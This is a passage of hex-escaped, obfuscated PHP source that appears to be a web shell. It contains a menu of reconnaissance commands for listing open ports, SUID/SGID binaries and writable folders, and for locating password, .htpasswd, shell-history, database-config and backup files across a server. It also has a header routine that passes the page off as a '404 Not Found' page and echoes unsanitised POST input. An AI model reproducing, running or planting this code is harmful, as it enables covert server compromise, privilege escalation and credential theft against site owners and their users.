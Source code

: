 on\x20\x61\x20Li\x6e\x75\x78\x20s\x65\x63o\x6ed\x20\x65x\x74en\x64ed\x20\x66\x69\x6ce syst\x65\x6d"=>"lsat\x74\x72\x20-\x76a","\x73h\x6f\x77\x20\x6f\x70en\x65d po\x72t\x73"=>"\x6ee\x74\x73\x74\x61t -a\x6e\x20|\x20grep\x20-i\x20\x6c\x69\x73t\x65\x6e","F\x69\x6ed"=>"","fin\x64 a\x6c\x6c \x73\x75\x69\x64\x20\x66\x69l\x65\x73"=>"fi\x6e\x64 / -\x74y\x70\x65\x20\x66\x20-\x70e\x72\x6d -0\x34\x30\x30\x30\x20-l\x73","\x66\x69\x6e\x64 \x73\x75i\x64 \x66i\x6ce\x73 in\x20c\x75r\x72\x65nt d\x69\x72"=>"f\x69\x6ed\x20\x2e -typ\x65 f -pe\x72\x6d -0\x340\x30\x30 -\x6cs","f\x69\x6ed a\x6cl\x20\x73\x67\x69d\x20\x66il\x65s"=>"f\x69\x6ed / -ty\x70\x65\x20f -pe\x72m -\x30\x320\x30\x30\x20-\x6c\x73","\x66i\x6ed \x73\x67\x69\x64 \x66iles in \x63u\x72rent di\x72"=>"\x66\x69nd \x2e\x20-t\x79\x70e \x66\x20-p\x65\x72m\x20-\x30\x320\x300 -\x6c\x73","\x66\x69\x6ed\x20\x63\x6f\x6efi\x67.inc.\x70h\x70\x20f\x69\x6ces"=>"\x66\x69\x6ed / -ty\x70\x65 \x66\x20-na\x6d\x65\x20\x63\x6f\x6e\x66ig.in\x63\x2e\x70hp","find \x63o\x6e\x66\x69g*\x20files"=>"\x66in\x64\x20/\x20-t\x79\x70\x65\x20f -na\x6de \x22c\x6f\x6e\x66\x69g*\x22","fin\x64\x20co\x6ef\x69g* \x66i\x6c\x65s\x20\x69\x6e\x20\x63\x75r\x72\x65\x6et\x20d\x69r"=>"\x66\x69\x6e\x64 \x2e -t\x79pe\x20\x66\x20-\x6eame\x20\x22\x63\x6fnf\x69g*\x22","fi\x6e\x64 a\x6cl\x20w\x72\x69\x74\x61\x62le f\x6flde\x72s a\x6ed\x20f\x69les"=>"fi\x6ed /\x20-\x70\x65\x72m\x20-\x32 -l\x73","fi\x6e\x64\x20\x61ll\x20wr\x69table \x66\x6f\x6c\x64e\x72s\x20an\x64\x20fi\x6c\x65s\x20\x69n \x63\x75rrent d\x69r"=>"f\x69\x6e\x64\x20\x2e -p\x65r\x6d\x20-2\x20-l\x73","\x66\x69\x6e\x64 al\x6c\x20se\x72\x76\x69c\x65\x2e\x70\x77\x64\x20\x66i\x6c\x65\x73"=>"fi\x6ed /\x20-\x74yp\x65 \x66 -n\x61me \x73\x65r\x76i\x63e\x2ep\x77\x64","\x66\x69\x6e\x64 \x73\x65rvi\x63e.\x70\x77d\x20\x66il\x65\x73\x20\x69n\x20\x63\x75\x72\x72e\x6e\x74 di\x72"=>"fin\x64\x20\x2e\x20-t\x79\x70\x65 f\x20-\x6eam\x65\x20service.\x70w\x64","f\x69\x6ed \x61\x6c\x6c\x20\x2ehtpa\x73sw\x64 f\x69le\x73"=>"\x66\x69\x6ed\x20/\x20-\x74ype \x66\x20-\x6e\x61me \x2eh\x74\x70a\x73\x73\x77d","\x66\x69\x6e\x64 \x2e\x68\x74pas\x73wd\x20f\x69\x6c\x65\x73\x20i\x6e\x20\x63u\x72r\x65nt dir"=>"\x66i\x6e\x64\x20\x2e\x20-\x74ype f\x20-na\x6d\x65\x20.h\x74\x70as\x73w\x64","\x66\x69nd \x61l\x6c .b\x61sh\x5f\x68is\x74ory\x20\x66\x69\x6ce\x73"=>"f\x69n\x64 /\x20-ty\x70e f\x20-\x6eam\x65 .\x62a\x73h_h\x69\x73tory","\x66\x69n\x64 \x2e\x62a\x73h_h\x69st\x6f\x72y\x20f\x69\x6ces \x69n curr\x65nt\x20d\x69\x72"=>"fi\x6e\x64\x20. -typ\x65\x20f\x20-\x6e\x61me\x20.b\x61\x73\x68_h\x69stor\x79","fin\x64\x20\x61\x6c\x6c\x20.\x66\x65\x74\x63h\x6d\x61\x69l\x72c\x20\x66\x69les"=>"fi\x6e\x64 /\x20-\x74yp\x65 \x66 -\x6eam\x65 .\x66e\x74\x63h\x6dail\x72c","\x66\x69\x6ed .f\x65\x74ch\x6d\x61\x69\x6cr\x63\x20\x66\x69l\x65\x73\x20\x69n \x63ur\x72ent\x20d\x69\x72"=>"find . -t\x79pe \x66 -nam\x65\x20.fe\x74\x63\x68\x6d\x61i\x6c\x72\x63","L\x6f\x63a\x74e"=>"","\x6co\x63a\x74e\x20\x68\x74tpd.c\x6f\x6ef f\x69\x6ce\x73"=>"l\x6f\x63at\x65 \x68t\x74\x70\x64\x2ec\x6fn\x66","l\x6fca\x74\x65\x20vho\x73t\x73.c\x6f\x6e\x66\x20\x66\x69les"=>"l\x6fc\x61\x74\x65\x20v\x68\x6f\x73\x74\x73\x2ec\x6f\x6e\x66","\x6c\x6f\x63ate\x20p\x72\x6f\x66\x74\x70\x64\x2e\x63\x6f\x6e\x66\x20\x66iles"=>"\x6co\x63\x61\x74e pr\x6fftp\x64.\x63\x6f\x6e\x66","l\x6f\x63ate\x20\x70\x73y\x62\x6e\x63\x2econ\x66\x20fi\x6c\x65\x73"=>"lo\x63\x61te \x70sy\x62\x6ec\x2eco\x6ef","\x6c\x6fca\x74e m\x79\x2ec\x6f\x6e\x66\x20\x66\x69les"=>"lo\x63\x61\x74e\x20\x6d\x79.conf","loc\x61te \x61dmi\x6e\x2e\x70\x68p fi\x6ces"=>"l\x6fcat\x65\x20ad\x6d\x69\x6e.\x70h\x70","\x6co\x63\x61te\x20\x63\x66g.p\x68p\x20file\x73"=>"\x6co\x63\x61\x74e \x63fg\x2ephp","\x6cocate \x63\x6f\x6ef\x2ephp\x20f\x69le\x73"=>"loc\x61\x74e\x20\x63\x6f\x6e\x66\x2e\x70\x68\x70","\x6c\x6fca\x74\x65 c\x6f\x6ef\x69g\x2e\x64at \x66i\x6ce\x73"=>"\x6coca\x74\x65 \x63o\x6ef\x69g\x2e\x64at","l\x6fc\x61t\x65\x20\x63\x6fn\x66ig.p\x68p\x20\x66\x69\x6ces"=>"\x6c\x6fc\x61\x74\x65 \x63o\x6e\x66i\x67.\x70\x68\x70","\x6c\x6fcate co\x6e\x66ig.\x69n\x63\x20\x66il\x65\x73"=>"lo\x63\x61te\x20\x63\x6f\x6efi\x67\x2ein\x63","locat\x65 co\x6e\x66\x69\x67\x2e\x69\x6e\x63\x2eph\x70"=>"\x6coca\x74e c\x6f\x6e\x66\x69\x67.\x69nc\x2ep\x68p","l\x6fcat\x65 c\x6f\x6ef\x69g.defa\x75\x6c\x74\x2ephp \x66iles"=>"lo\x63ate \x63on\x66\x69\x67.\x64e\x66\x61\x75\x6c\x74\x2ephp","\x6c\x6fcate co\x6ef\x69\x67*\x20\x66\x69\x6ces "=>"\x6coc\x61te con\x66i\x67","\x6c\x6fc\x61te\x20\x2e\x63on\x66 f\x69le\x73"=>"loc\x61t\x65 \x27.\x63on\x66\x27","\x6c\x6f\x63\x61t\x65\x20.pwd\x20\x66i\x6c\x65s"=>"lo\x63\x61\x74\x65 \x27\x2epw\x64\x27","lo\x63a\x74e\x20.sq\x6c\x20fil\x65s"=>"\x6c\x6fc\x61\x74e\x20'.s\x71l\x27","loc\x61\x74\x65\x20\x2e\x68\x74\x70as\x73wd \x66\x69le\x73"=>"\x6c\x6f\x63at\x65 \x27.h\x74\x70as\x73w\x64'","l\x6fc\x61t\x65\x20.b\x61s\x68\x5fhi\x73\x74ory\x20\x66i\x6ces"=>"\x6c\x6f\x63\x61\x74e \x27.ba\x73h\x5fh\x69s\x74\x6fry\x27","\x6co\x63\x61\x74\x65\x20\x2emys\x71\x6c\x5f\x68\x69s\x74\x6fr\x79\x20f\x69les"=>"\x6co\x63\x61\x74\x65\x20\x27.m\x79\x73ql_\x68\x69\x73\x74\x6fry'","\x6c\x6f\x63\x61\x74\x65\x20\x2e\x66\x65t\x63hma\x69\x6c\x72\x63\x20f\x69\x6ce\x73"=>"lo\x63a\x74\x65 \x27\x2efet\x63\x68\x6dai\x6c\x72c'","\x6c\x6f\x63\x61t\x65\x20backup f\x69\x6ce\x73"=>"loc\x61\x74\x65 \x62ac\x6bu\x70","\x6c\x6f\x63a\x74\x65 \x64u\x6d\x70\x20\x66\x69les"=>"l\x6f\x63at\x65\x20du\x6d\x70","loca\x74\x65 p\x72iv \x66i\x6ce\x73"=>"\x6c\x6f\x63\x61\x74\x65 priv");function printHeader(){if(empty($_POST["\x63\x68\x61rs\x65t"]))$_POST["\x63h\x61r\x73et"]="\x55T\x46-8";$defgwadk="\x6d\x69\x6c\x6c\x69\x6e\x6b";global$color;echo " \n<\x68t\x6dl><\x68ea\x64\x3e<\x6de\x74\x61 \x68t\x74p-eq\x75i\x76\x3d\x27C\x6fn\x74ent-T\x79p\x65\x27 conten\x74='\x74\x65xt/htm\x6c\x3b \x63h\x61\x72set=";echo $_POST["\x63\x68\x61\x72s\x65t"];echo "'>\x3c\x74\x69\x74\x6ce>";echo $_SERVER["\x48\x54T\x50\x5fHOS\x54"];echo "-\x20\x34\x30\x34\x20N\x6f\x74 \x46oun\x64